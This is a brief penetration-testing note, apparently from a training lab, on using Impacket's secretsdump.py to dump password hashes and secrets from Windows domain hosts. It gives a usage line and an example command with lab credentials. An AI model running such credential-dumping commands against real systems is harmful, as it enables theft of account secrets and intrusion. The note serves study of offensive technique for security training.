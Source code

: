 
dumping hashes and secrets in windows
## usage:
```bash
secretsdump.py DOMAIN/USERNAME:'PASSWORD'@IP 

# Example

secretsdump.py marvel/fcastle:Password1@192.168.181.32
```
^secdum


---
Tags: #hashdump #AD #impackets 